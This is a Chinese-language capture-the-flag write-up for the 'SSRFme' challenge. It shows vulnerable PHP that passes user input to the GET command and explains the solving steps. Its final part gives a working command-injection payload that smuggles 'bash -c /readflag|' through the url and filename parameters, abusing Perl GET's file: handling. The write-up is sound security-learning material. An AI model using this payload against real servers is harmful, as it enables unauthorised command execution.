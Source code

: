 ```yaml
---
title: SSRFme
date: 2021-04-09 20:13:44
tags: wp

---
```

## ---     



	```php
	<?php
	    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
	        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);    ##以逗号分割$_SERVER['HTTP_X_FORWARDED_FOR']，返回数组
	        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
	    }
	
	    echo $_SERVER["REMOTE_ADDR"];
	
	    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);      ##$_SERVER["REMOTE_ADDR"]返回IP地址
	    @mkdir($sandbox);    ##创建沙盒 
	    @chdir($sandbox);    ##改变目录到沙盒
	
	    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
	    $info = pathinfo($_GET["filename"]);
	    $dir  = str_replace(".", "", basename($info["dirname"]));         ##url参数以GET命令执行，结果存入以filename参数的值命名的文件里
	    @mkdir($dir);
	    @chdir($dir);
	    @file_put_contents(basename($info["basename"]), $data);
	    highlight_file(__FILE__);
	```



读取根目录，创建文件abc      
`url=/&filename=abc`     
访问该文件`/sandbox/fcf2bccafc269c160382150a0166d632/abc	`     
 ![01.png](https://ae03.alicdn.com/kf/U9d258cc946ec4e4fb723d7652f2049c7P.jpg)


/readflag得到flag       

`bash -c /readflag|`       
不过要先有一个同名文件     
然后执行该命令       
payload：`?url=file:bash -c /readflag|&filename=bash -c /readflag|`执行两遍，然后访问`bash -c /readflag|`即可得到flag       


[perl脚本中GET命令执行漏洞](https://www.freesion.com/article/5626598350/)
